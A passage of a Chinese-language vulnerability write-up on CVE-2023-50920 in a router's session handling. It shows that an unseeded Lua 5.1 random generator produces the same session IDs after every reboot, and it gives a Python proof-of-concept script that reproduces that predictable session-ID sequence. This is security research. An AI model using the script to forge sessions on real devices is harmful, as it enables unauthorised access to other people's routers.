 ![](https://bbs.kanxue.com/upload/attach/202411/802108_QPKX39DAS4QKMKG.png)

细究下原因，是因为开发者忘记在 / etc/init.d/gl-ngx-session 中使用 math.randomseed 函数初始化随机数种子了，以及文件第一行是 #!/usr/bin/lua 即由其执行，分析下知道是 lua5.1 的解释器，可以在 [lua5.1 源代码网站](https://www.lua.org/source/5.1/lmathlib.c.html)找到 math_random 和 math_randomseed 的实现，前者先通过 (rand()%RAND_MAX) / RAND_MAX 生成一个 0~1 之间的小数，只传入一个参数时候与其相乘，使用 floor 向下取整再加一。后者比较简单，是直接调用了 C 语言的 srand，如果没有调用此函数初始化随机数种子的话，会默认使用 1 开始作为种子，就导致每次重启不断产生的随机数都是一致的。

![](https://bbs.kanxue.com/upload/attach/202411/802108_497XJAPQMMAX4M8.png)

可以在虚拟机上写一个 lua 文件执行验证一下，先设置 randomseed 为 1，再调用 generated_id 函数，因为每次登录 / rpc-challenge 请求也会调用一次 generate_id 作为随机数 nonce，所以取第二次生成结果作为 sid，可以看到结果和我们登录记录五个 sid 是一致的。

![](https://bbs.kanxue.com/upload/attach/202411/802108_K5BGFZETJNVKWNW.png)

或者我们反编译下虚拟机的 / lib/libc.so 文件，看下 rand 和 srand 函数的实现，自己写一份，也能得到每次重启的固定 sid 序列，需要注意的一个坑是 lua 数组下标是从 1 开始的。

![](https://bbs.kanxue.com/upload/attach/202411/802108_TY7E7X93AAERK86.png)

![](https://bbs.kanxue.com/upload/attach/202411/802108_2QNDKC2CH7X6Q9E.png)

```
#CVE-2023-50920.py
import math
seed = 0
RAND_MAX = 2147483647
 
def lua51_math_randomseed(s):
    global seed
    seed = s - 1
     
def lua51_math_random(max):
    global seed
    seed = (6364136223846793005*int(seed) + 1)&0xffffffffffffffff
    r =  (seed >> 33)&0xffffffff
    return math.floor(((r%RAND_MAX)/RAND_MAX)*max)+1
 
def generate_id(n):
    s = []
    t = ["0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "a", "b", "c", "d", "e", "f", "g", "h", "i", "j", "k", "l", "m", "n", "o", "p", "q", "r", "s", "t", "u", "v", "w", "x", "y", "z",
        "A", "B", "C", "D", "E", "F", "G", "H", "I", "J", "K", "L", "M", "N", "O", "P", "Q", "R", "S", "T", "U", "V", "W", "X", "Y", "Z"]
    for i in range(n):
        a = lua51_math_random(len(t))-1
        s.append(t[a])
    return "".join(s)
 
lua51_math_randomseed(1)
for i in range(5):
    generate_id(32)
    print(generate_id(32))
```
